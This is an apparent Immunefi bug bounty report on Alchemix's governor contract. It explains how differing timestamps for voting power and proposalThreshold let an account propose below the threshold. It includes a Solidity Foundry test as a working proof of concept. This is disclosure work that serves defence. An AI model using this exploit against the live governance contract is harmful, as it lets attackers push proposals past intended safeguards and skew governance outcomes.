 
# The user can propose with less voting power than proposalThreshold.

Submitted on Wed May 15 2024 21:55:34 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31277

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The user can propose with less voting power than proposalThreshold.

## Vulnerability Details
This error arises from the difference between the timing of calculating votingPower and proposalThreshold.

L2Governor.sol
```
require(
            getVotes(_msgSender(), block.timestamp - 1) >= proposalThreshold(),
            "Governor: veALCX power below proposal threshold"
        );
```
the votingPower is calculated at `block.timestamp - 1`.

but 
```
function proposalThreshold() public view override(L2Governor) returns (uint256) {
        return (token.getPastTotalSupply(block.timestamp) * proposalNumerator) / PROPOSAL_DENOMINATOR;
    }
```
`proposalThreshold` is calculated at `block.timestamp`
In `block.timestamp`, `VotingEscrow.totalSupplyAtT` becomes smaller than at `block.timestamp - 1` point.
If a withdraw occurs at this point, it makes more changes.
An attacker may artificially carry out withdraw to make the `VotingEscrow.totalSupplyAtT` smaller.
Or the attacker can propose in the same transaction as soon as a user withdraw a large amount.

## Impact Details
By lowering the minimum unit price to create an offer, it makes it easier for an attacker to generate a malicious offer.
        
## Proof of concept
## Proof of Concept

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract AlchemixGovernorPoCTest is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);
    }

    function craftTestProposal()
    internal
    view
    returns (address[] memory targets, uint256[] memory values, bytes[] memory calldatas, string memory description)
    {
        targets = new address[](1);
        targets[0] = address(voter);
        values = new uint256[](1);
        values[0] = 0;
        calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(voter.whitelist.selector, usdc);
        description = "Whitelist USDC";
    }

    function testProposePoC1() public {
        uint256 targetTokenId = createVeAlcx(admin, TOKEN_1 * 4 - 5000, MAXTIME, false);
        uint256 userTokenId = createVeAlcx(beef, TOKEN_1 * 96, MAXTIME, false);
        uint256 votingPower = governor.getVotes(admin, block.timestamp);
        uint256 proposalThreshold = governor.proposalThreshold();

        // votingPower < proposalThreshold
        assertLt(votingPower, proposalThreshold, "votingPower >= proposalThreshold");

        hevm.startPrank(admin);

        hevm.warp(block.timestamp + 1);

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
        // this call is not failed.
        governor.propose(t, v, c, d, MAINNET);

        hevm.stopPrank();
    }

}
```